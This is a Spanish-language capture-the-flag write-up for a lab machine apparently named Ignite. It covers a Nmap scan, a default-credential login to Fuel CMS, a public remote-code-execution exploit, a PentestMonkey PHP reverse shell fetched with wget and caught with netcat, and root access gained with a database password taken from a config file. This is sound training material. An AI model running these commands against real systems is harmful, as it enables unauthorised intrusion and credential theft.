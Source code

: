 # IGNITE

## Reconocimiento

Iniciamos con un escaneo Nmap para identificar los puertos abiertos, versiones de servicios y demás información relevante:

``nmap -T4 --min-rate=10000 -p- -A IP_MAQUINA_ATACADA``

Explicación de los parámetros:
1. `-T4` -> Define la velocidad del escaneo.
2. `--min-rate=10000` -> Envía al menos 10,000 paquetes por segundo.
3. `-p-` -> Escanea todos los puertos disponibles.
4. `-A` -> Activa un escaneo agresivo para obtener más información.

![Imagen1](/Iginite/assets/2025-02-06%2018_06_24-KaliLinux-Hacking%20-%20VMware%20Workstation.png)

El escaneo revela que el único puerto abierto es el **80/tcp**, donde se ejecuta un servidor web Apache con **Fuel CMS**. Además, el archivo `robots.txt` indica que la página de inicio de sesión del CMS se encuentra en `/fuel`.

## Explotación de la Web

Accedemos al sitio web en el puerto 80:

![Imagen2](/Iginite/assets/Captura%20de%20pantalla%202025-02-06%20194100.png)

Desde la página principal de Fuel CMS, intentamos iniciar sesión con las credenciales por defecto ``admin:admin``

`http://DIRECCION_DE_LA_WEB_ATACADA/fuel`

![Imagen3](/Iginite/assets/2025-02-06%2018_08_44-KaliLinux-Hacking%20-%20VMware%20Workstation.png)

El sesión es exitoso, por lo que accederemos al panel de control:

![Imagen4](/Iginite/assets/2025-02-06%2018_09_24-KaliLinux-Hacking%20-%20VMware%20Workstation.png)

Al hacer clic en "Click here for your site documentation", obtenemos la versión del CMS instalada, en este caso, **Fuel CMS 1.4**.

![Imagen5](/Iginite/assets/2025-02-06%2018_11_28-KaliLinux-Hacking%20-%20VMware%20Workstation.png)

Buscando en Google vulnerabilidades para esta versión, encontramos un exploit para **Fuel CMS 1.4.1**, por lo que lo descargamos.

![Imagen6](<2025-02-06 18_14_27-KaliLinux-Hacking - VMware Workstation.png>)

Ejecutamos el exploit con:

``python3 50477.py -u http://DIRECCION_DE_LA_WEB_ATACADA``

![Imagen7](<2025-02-06 18_38_46-KaliLinux-Hacking - VMware Workstation.png>)

Descargamos una **reverse shell en PHP** desde PentestMonkey:

``wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz``

![Imagen8](<2025-02-06 18_41_01-KaliLinux-Hacking - VMware Workstation.png>)

Extraemos y editamos el archivo `.php`, reemplazando la IP y el puerto:

```php
$ip = "IP_MAQUINA_ATACANTE";
$port = "PUERTO_LIBRE";
```

![Imagen9](<2025-02-06 18_42_44-KaliLinux-Hacking - VMware Workstation.png>)

Levantamos un servidor web en nuestra máquina atacante:

``python3 -m http.server 80``

![Imagen10](<2025-02-06 18_48_50-KaliLinux-Hacking - VMware Workstation.png>)

Desde el servidor comprometido, descargamos la reverse shell:

![Imagen11](<2025-02-06 18_50_09-KaliLinux-Hacking - VMware Workstation.png>)

Antes de ejecutarla, ponemos en escucha nuestro puerto con Netcat:

``nc -nlvp PUERTO_CONFIGURADO``

![Imagen12](<2025-02-06 19_01_48-KaliLinux-Hacking - VMware Workstation.png>)

Ejecutamos la reverse shell accediendo desde el navegador:

``http://DIRECCION_DE_LA_WEB_ATACADA/NOMBRE_ARCHIVO_REVERSE_SHELL``

![Imagen13](<2025-02-06 19_07_51-KaliLinux-Hacking - VMware Workstation.png>)

## Comprometiendo la Máquina

Si todo ha funcionado correctamente, obtenemos acceso como `www-data` en el sistema remoto:

``whoami``

![Imagen14](<2025-02-06 19_08_15-KaliLinux-Hacking - VMware Workstation.png>)

Para mejorar la shell, ejecutamos:

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
<CTRL> + Z
stty raw -echo; fg
```

![Imagen15](<2025-02-06 19_09_34-KaliLinux-Hacking - VMware Workstation.png>)

Buscamos la primera flag dentro del **home** del usuario comprometido `www-data`:

``cat FLAG.txt``

![Imagen16](<2025-02-06 19_10_53-KaliLinux-Hacking - VMware Workstation.png>)

## Escalada de Privilegios

Revisamos la configuración de Fuel CMS en:

``fuel/application/config/database.php``

![Imagen17](<2025-02-06 19_11_51-KaliLinux-Hacking - VMware Workstation.png>)

Extraemos la contraseña con:

``cat database.php | grep "pass"``

![Imagen18](<2025-02-06 19_16_22-KaliLinux-Hacking - VMware Workstation.png>)

Probamos la contraseña con `su -` para obtener acceso root:

``su -``

Ingresamos la contraseña obtenida (`mememe`).

![Imagen19](<2025-02-06 19_19_22-KaliLinux-Hacking - VMware Workstation.png>)

Ya como root, buscamos y mostramos la flag final:

``cat /root/FLAG.txt``

![Imagen20](<2025-02-06 19_19_53-KaliLinux-Hacking - VMware Workstation.png>)

¡Máquina comprometida con éxito!

